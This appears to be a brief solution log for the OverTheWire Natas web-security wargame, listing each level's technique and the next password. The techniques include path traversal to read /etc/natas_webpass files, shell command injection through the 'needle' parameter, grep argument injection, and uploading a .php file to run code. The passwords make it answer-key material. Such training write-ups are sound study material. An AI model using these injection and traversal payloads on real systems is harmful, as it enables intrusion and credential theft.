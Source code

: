 level0 - level1
```html
<!--The password for natas1 is g9D9cREhslqBKtcA2uocGHPfMZVzeFK6 --> 
```
level1 - level2
```html
<!--The password for natas2 is h4ubbcXrWqsTo7GGnnUMLppXbOogfBZ7 -->
```

level2 - level3
```
http://natas2.natas.labs.overthewire.org/files/users.txt
G6ctbMJ5Nb4cbFwhpMPSvxGHhQ7I6W8Q
```

level3 - level4
```
http://natas3.natas.labs.overthewire.org/s3cr3t/users.txt
natas4:tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm
```

level4 - level5
```
The password for natas5 is Z0NsrtIkJoKALBCLi5eqFfcRN82Au2oD
```

level5 - level6
```
The password for natas6 is fOIvE0MDtPTgRhqmmvvAOt2EfXR6uQgR
```

level6 - level7
```
http://natas6.natas.labs.overthewire.org/includes/secret.inc
<?
$secret = "FOEIUWGHFEEUHOFUOIU";
?>
Access granted. The password for natas7 is jmxSiH3SP6Sonf8dv66ng8v1cIEdjXWr
```

level7 - level8
```
http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8
a6bZCNYwdKqN5cGP11ZdtPg0iImQQhAB
```

level8 - level9
```
echo base64_decode(strrev(hex2bin("3d3d516343746d4d6d6c315669563362")));
oubWYf2kBq

Sda6t0vkOPkM8YeOZkAGVhFoaplvlJFd
```

level9 - level10
```
natas9: param
needle: aaa; cat /etc/natas_webpass/natas10; ls
D44EcsFkLxPIkAAKLosx8z3hxX1Z4MCE
dictionary.txt
```

level10 - level11
```
natas10: param
needle: -v aaa /etc/natas_webpass/natas11 
1KFqoJXi6hRaPluAmk8ESDW4fSysRoIg
```

level11 - level12
```
```

level12 - level13
```
change the file extension to .php, then the uploaded file can run php command.
```
